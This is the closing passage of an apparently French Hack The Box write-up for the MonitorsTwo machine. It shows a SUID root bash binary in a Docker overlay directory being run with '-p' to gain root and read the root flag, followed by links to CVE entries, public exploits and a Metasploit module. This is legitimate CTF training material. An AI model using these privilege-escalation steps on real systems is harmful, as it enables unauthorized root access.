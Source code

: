 Enfin, nous pouvons retourner à la session SSH de marcus et exécuter le binaire bash en utilisant l'option `-p` ([link][16])

flag:

```bash
┌──(marcus㉿monitorstwo)-[~]
└─$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ ls -l bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 bash

┌──(marcus㉿monitorstwo)-[/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin]
└─$ ./bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# cat /root/root.txt
<********************************>
```


[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set

[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png
